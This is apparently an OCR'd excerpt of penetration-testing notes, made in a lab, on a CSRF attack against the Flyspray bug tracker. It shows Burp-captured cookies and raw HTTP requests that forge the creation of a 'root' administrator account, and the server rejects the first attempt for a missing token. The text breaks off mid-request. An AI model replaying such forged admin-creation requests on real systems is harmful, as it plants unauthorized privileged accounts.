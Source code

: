 
**Go to create new user, burp shows:**

Cookie: flyspray=lt4ompvabcmq7o4cj4od78g4c6uclonb; lang=en\-US; i\_like\_gitea=11a20aa94131e2a5; \_csrf=rY4OYSPLkUiba6KzUf6EO23ncXw6MTU4NjQwODQyNTQ3NDMyMjA1Ng

**Navigte to to my html, find the following request in burp:
**
POST /flyspray/index\.php?do=admin\&area=newuser HTTP/1\.1
Host: 10\.1\.20\.110
User\-Agent: Mozilla/5\.0 \(X11; Linux x86\_64; rv:68\.0\) Gecko/20100101 Firefox/68\.0
Accept: text/html,application/xhtml\+xml,application/xml;q=0\.9,\*/\*;q=0\.8
Accept\-Language: en\-US,en;q=0\.5
Accept\-Encoding: gzip, deflate
Content\-Type: application/x\-www\-form\-urlencoded
Content\-Length: 189
Connection: close
Cookie: flyspray=lt4ompvabcmq7o4cj4od78g4c6uclonb; lang=en\-US; i\_like\_gitea=11a20aa94131e2a5; \_csrf=rY4OYSPLkUiba6KzUf6EO23ncXw6MTU4NjQwODQyNTQ3NDMyMjA1Ng
Upgrade\-Insecure\-Requests: 1

action=admin\.newuser\&do=admin\&area=newuser\&user\_name=root\&user\_pass=12345678\&user\_pass2=12345678\&real\_name=root\&email\_address=root%40root\.com\&jabber\_id=\&notify\_type=0\&time\_zone=0\&group\_in=1

**response: 
**
missingtoken

**Try creating new user and look at the request it sends, to try to match this up:
**
POST /flyspray/index\.php?do=admin HTTP/1\.1
Host: 10\.1\.20\.110
User\-Agent: Mozilla/5\.0 \(X11; Linux x86\_64; rv:68\.0\) Gecko/20100101 Firefox/68\.0
Accept: text/html,application/xhtml\+xml,application/xml;q=0\.9,\*/\*;q=0\.8
Accept\-Language: en\-US,en;q=0\.5
Accept\-Encoding: gzip, deflate
Referer: [http://10.1.20.110/flyspray/index.php?do=admin](#http://10.1.20.110/flyspray/index.php?do=register)

Content\-Type: multipart/form\-data; boundary=\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-5650162856761576351416069457
Content\-Length: 1448
Connection: close
Cookie: flyspray=lt4ompvabcmq7o4cj4od78g4c6uclonb; lang=en\-US; i\_like\_gitea=11a20aa94131e2a5; \_csrf=rY4OYSPLkUiba6KzUf6EO23ncXw6MTU4NjQwODQyNTQ3NDMyMjA1Ng
Upgrade\-Insecure\-Requests: 1

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-5650162856761576351416069457
Content\-Disposition: form\-data; name="csrftoken"

2057665645
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-5650162856761576351416069457
Content\-Disposition: form\-data; name="action"

admin\.newuser
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-5650162856761576351416069457
Content\-Disposition: form\-data; name="user\_name"
